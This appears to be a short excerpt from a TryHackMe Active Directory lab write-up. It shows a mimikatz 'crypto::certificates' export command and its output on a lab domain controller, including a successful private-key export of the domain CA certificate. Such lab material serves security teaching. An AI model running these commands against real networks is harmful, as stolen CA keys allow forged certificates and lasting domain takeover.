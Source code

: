 ###### example output
```
mimikatz # crypto::certificates /systemstore:local_machine /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
        Public export  : OK - 'local_machine_My_0_.der'
        Private export : ERROR kull_m_crypto_exportPfx ; PFXExportCertStoreEx/kull_m_file_writeData (0x8009000b)

 1. za-THMDC-CA
    Subject  : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 90e157dae304ef429824a33d3a3ef91e
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 7:58:15 PM -> 4/27/2027 8:08:09 PM
    Hash SHA1: c12fcb4b88467854b3d4d7f762adb50b0fd8346e
        Key Container  : za-THMDC-CA
        Provider       : Microsoft Software Key Storage Provider
        Provider type  : cng (0)
        Type           : CNG Key (0xffffffff)
        |Provider name : Microsoft Software Key Storage Provider
        |Implementation: NCRYPT_IMPL_SOFTWARE_FLAG ;
        Key Container  : za-THMDC-CA
        Unique name    : 8d666f3049de45dee20c70510f66d2cf_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Algorithm      : RSA
        Key size       : 2048 (0x00000800)
        Export policy  : 00000003 ( NCRYPT_ALLOW_EXPORT_FLAG ; NCRYPT_ALLOW_PLAINTEXT_EXPORT_FLAG ; )
        Exportable key : YES
        LSA isolation  : NO
        Public export  : OK - 'local_machine_My_1_za-THMDC-CA.der'
        Private export : OK - 'local_machine_My_1_za-THMDC-CA.pfx'

 2. THMDC.za.tryhackme.loc
    Subject  : CN=THMDC.za.tryhackme.loc
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 03000000000057c6f9be06e7c78d0300000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: a0e69ecef166b2d785a1b7d615ff730819443d42
        Key Container  : 520b5ca0aec81961ad476939c6792c13_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
```